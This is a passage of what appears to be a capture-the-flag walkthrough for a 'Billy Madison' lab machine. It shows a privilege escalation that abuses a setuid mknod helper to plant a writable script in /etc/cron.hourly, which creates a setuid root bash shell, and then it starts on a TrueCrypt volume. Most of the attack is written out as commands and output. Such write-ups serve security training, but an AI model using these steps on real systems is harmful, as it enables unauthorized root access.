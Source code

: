 	eric@BM:/tmp$ /usr/local/share/sgml/donpcgd /etc/passwd /tmp/testing1
	#### mknod(/tmp/testing1,81a4,0)

	eric@BM:/tmp$ ls -la
	total 920
	...
	-rw-r--r--  1 root root      0 Feb 22 02:08 testing1 # same permissions as /etc/passwd
	...
	```
5. Obtain root by creating a writable file at `/etc/cron.hourly`, that will create a root shell.
	``` 
	eric@BM:/tmp$ touch /tmp/test
	eric@BM:/tmp$ /usr/local/share/sgml/donpcgd /tmp/test /etc/cron.hourly/rootbash
	#### mknod(/etc/cron.hourly/rootbash,81b4,0)
	eric@BM:/tmp$  ls -l /etc/cron.hourly
	total 0
	-rw-rw-r-- 1 eric eric 0 Feb 22 04:25 rootbash
	eric@BM:/tmp$ printf '#!/bin/bash\n\ncp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash\n' > /etc/cron.hourly/rootbash; chmod 4777 /etc/cron.hourly/rootbash
	eric@BM:/tmp$ ls -l /etc/cron.hourly
	total 4
	-rwsrwxrwx 1 eric eric 67 Feb 22 04:26 rootbash
	```
	![](Pasted%20image%2020220224020112.png)
6. Wait for cronjob to execute
	``` 
	eric@BM:/tmp$ ls -la
	total 4944
	...
	-rw-r--r--  1 root root       0 Feb 22 01:24 passwd
	-rwxrwxr-x  1 eric eric 3078592 Feb 22 03:00 pspy64
	-rwsr-xr-x  1 root root 1037528 Feb 22 05:17 rootbash
	...
	```
7. Obtain root
	``` 
	eric@BM:/tmp$ /tmp/rootbash -p
	```
	![](Pasted%20image%2020220224025933.png)

# /PRIVATE - Crack Truecrypt Volume
1. View files in `/PRIVATE/`
	``` 
	root@BM:/PRIVATE# ls -la
	total 1036
	drwx------  2 root  root     4096 Aug 29  2016 .
	drwxr-xr-x 25 root  root     4096 Feb 22 01:32 ..
	-rw-rw-r--  1 billy billy 1048576 Aug 21  2016 BowelMovement
	-rw-r--r--  1 root  root      221 Aug 29  2016 hint.txt
	root@BM:/PRIVATE# 
	```
2. View files
	- `hint.txt`
		``` 
		root@BM:/PRIVATE# cat hint.txt 
		Heh, I called the file BowelMovement because it has the same initials as
		Billy Madison.  That truely cracks me up!  LOLOLOL!
